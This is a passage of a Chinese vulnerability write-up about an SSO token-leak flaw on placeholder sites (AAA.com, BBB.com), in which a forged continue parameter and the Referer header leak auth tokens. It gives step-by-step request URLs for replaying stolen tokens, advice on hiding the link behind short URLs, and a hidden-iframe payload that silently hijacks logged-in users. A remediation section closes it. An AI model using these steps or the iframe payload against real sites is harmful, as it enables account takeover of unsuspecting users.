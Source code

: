 (2)访问
```
http://passport.AAA.com/sso/accounts/serviceLogin?continue=http://bbs.subdomain.AAA.com/thread-942592-1-1.html&service=service_id&isiframe=1&location=687474703a2f2f7777772e4242422e636f6d2f
```
这里`continue`还是指向我的帖子，`service`指定为对应站点，`location`的值为默认
![图片10.png](C:\Users\todaro\Desktop\kjkk\图片10.png)
获取到auth等参数的值`auth=yyyy&isiframe=1&location= 687474703a2f2f7777772e4242422e636f6d2f`

然后在浏览器的新建隐身窗口中打开如下链接：
```
http://www.BBB.com/sso/loginPc?auth=yyyy&isiframe=1&location=687474703a2f2f7777772e4242422e636f6d2f
```
![图片11.png](C:\Users\todaro\Desktop\kjkk\图片11.png)
这时候已经授权完，但是页面会在那一直重复刷新，没关系，我们这时候重新请求`http://www.BBB.com/main.htm`
![图片12.png](C:\Users\todaro\Desktop\kjkk\图片12.png)
发现我们已经登录进该网站

但是，但是，但是，如果你去访问`http://members.BBB.com`
会显示你还未登录

所以我们可以用下面的方法继续

请求如下链接：
```
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://bbs.subdomain.AAA.com/thread-942592-1-1.html?&isiframe=1&service=service_id&location=687474703a2f2f7777772e4242422e636f6d2f
```
`continue`还是指向帖子，`location`为`http://members.BBB.com/`
![图片13.png](C:\Users\todaro\Desktop\kjkk\图片13.png)
通过referer，网站成功获得
`auth=zzzz&isiframe=1&location=687474703a2f2f7777772e4242422e636f6d2f`
在新建隐身窗口中打开如下链接：
```
http://members.BBB.com/SSOServerLogin?auth=zzzz&isiframe=1&location=687474703a2f2f7777772e4242422e636f6d2f
```
![图片14.png](C:\Users\todaro\Desktop\kjkk\图片14.png)

![图片15.png](C:\Users\todaro\Desktop\kjkk\图片15.png)
登录用户中心成功！

##### 【3】
在未登录`https://passport.AAA.com/`的情况下
实际上和上面的也没差别，链接还是一样，只是当下要你马上登录而已
![图片16.png](C:\Users\todaro\Desktop\kjkk\图片16.png)
登录后还是会跳转到那个帖子，然后通过referer传递数据
这种情况下链接可能比较长，那么可以通过短链接来进行伪装

##### 【4】更好的利用漏洞
(1)子域名下有很多bbs站点，那么去论坛上发帖，然后把链接弄成短链接，如果是已经登录的用户就直接中招了，如果是未登录的用户，那么他点了链接之后登录也会中招。
(2)对于攻击已登录的用户，还有一个更好的办法，那么就是像利用csrf一样，在自己的网站直接用隐藏的iframe请求，用户无声无息就中招了
```
<iframe  id=kk src= "https://passport.AAA.com/sso/accounts/serviceLogin?continue=http:// bbs.subdomain.AAA.com/thread-942592-1-1.html&isiframe=1&service=service_id&location=687474703a2f2f7777772e4242422e636f6d2f&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css" border= "1" frameborder= "1 "  width= "100 " height= "100 " style= "display:none "> </iframe>
```
![图片17.png](C:\Users\todaro\Desktop\kjkk\图片17.png)

#### 修复方案：
可以在后端直接就指定了`service`对应的地址，所以你在请求时无论改什么，最后授权都是返回指定的网站。另外一个的话，论坛最好还是不要允许直接插入外链，每个网站在对外发起请求时最好有一个中转站点用来脱敏，可以参考qq邮箱或者知乎的外链脱敏方法。